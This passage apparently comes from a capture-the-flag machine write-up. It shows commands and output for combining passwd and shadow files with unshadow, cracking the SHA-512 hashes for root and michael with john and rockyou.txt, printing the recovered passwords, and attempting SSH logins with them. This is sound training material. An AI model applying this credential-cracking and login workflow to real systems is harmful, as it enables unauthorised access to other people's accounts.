 ```bash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

I used `unshadow` to combine the two files into a hash file

```bash
$ unshadow passwd shadow > hash
$ cat hash
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:0:0:root:/root:/bin/bash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:1001:1001::/home/michael:/bin/bash
```

Then, I used `john` to crack the hashes using the `rockyou.txt` and surprisingly, it cracked both `root` and `michael` passwords

```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)
insaneclownposse (michael)
2g 0:00:00:51 DONE (2025-01-11 12:50) 0.03903g/s 1144p/s 1918c/s 1918C/s kruimel..galati
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I tried to SSH into the machine as root with the cracked password, but it didn’t work

```bash
$ ssh root@10.10.11.32
The authenticity of host '10.10.11.32 (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.32' (ED25519) to the list of known hosts.
root@10.10.11.32's password:
Permission denied, please try again.
root@10.10.11.32's password:
Permission denied, please try again.
root@10.10.11.32's password:
root@10.10.11.32: Permission denied (publickey,password).
```

## SSH as Michael

So root SSH didn't work, but I had the `michael` password, so I tried that instead. And boom, I was in!
